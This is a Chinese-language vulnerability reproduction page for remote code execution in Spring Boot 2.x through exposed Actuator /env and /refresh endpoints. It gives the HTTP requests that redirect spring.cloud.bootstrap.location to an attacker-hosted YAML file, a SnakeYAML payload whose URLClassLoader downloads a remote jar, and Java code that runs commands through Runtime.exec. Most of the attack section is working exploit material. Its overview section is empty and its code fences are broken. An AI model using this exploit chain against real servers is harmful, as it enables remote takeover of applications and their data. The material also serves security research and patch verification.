 ```yaml
---
title: Spring Boot 修改环境属性导致的rce
id: zhfly3130
---
```


# Spring Boot 修改环境属性导致的rce

## 一、漏洞简介

## 二、漏洞影响

Spring Boot 2.x

## 三、复现过程

环境下载 https://github.com/ianxtianxt/actuator-testbed

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 59 `spring.cloud.bootstrap.location=http://artsploit.com/yaml-payload.yml` 
```

该请求修改了“ spring.cloud.bootstrap.location”属性，该属性用于加载外部配置并以YAML格式解析它。为了做到这一点，我们还需要调用“ / refresh”端点。

```
POST /refresh HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 0 
```

从远程服务器获取YAML配置时，将使用SnakeYAML库进行解析，该库也容易受到反序列化攻击。有效载荷（yaml-payload.yml）可以通过使用前述的Marshalsec研究生成：

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
] 
```

该文件的反序列化将触发提供的URLClassLoader的ScriptEngineManager构造函数的执行。简而言之，它导致了**'java.util.ServiceLoader＃load（java.lang.Class ，java.lang.ClassLoader）'**方法，该方法试图在所有库中查找'ScriptEngineFactory'接口的所有实现。在类路径中。由于我们可以通过URLClassLoader添加新的库，因此我们可以在其中包含恶意字节码的情况下为新的'ScriptEngineFactory'提供服务。为此，我们需要使用以下必需文件创建一个jar归档文件：https://github.com/ianxtianxt/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java应该包含实际的字节码，并在构造函数中带有恶意负载。

```
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

```
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
        Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
    } catch (IOException e) {
        e.printStackTrace();
    } 
``` 
```

https://github.com/ianxtianxt/yaml-payload/blob/master/src/META-INF/services/javax.script.ScriptEngineFactory应该只是一个包含对'artsploit.AwesomeScriptEngineFactory'的完整引用的文本文件，以便ServiceLoader知道在哪里可以找到该类：**artsploit.AwesomeScriptEngineFactory**同样，这种利用技术要求弹簧云位于类路径中，但是与Eureka的XStream有效负载相比，它甚至可以在最新版本中使用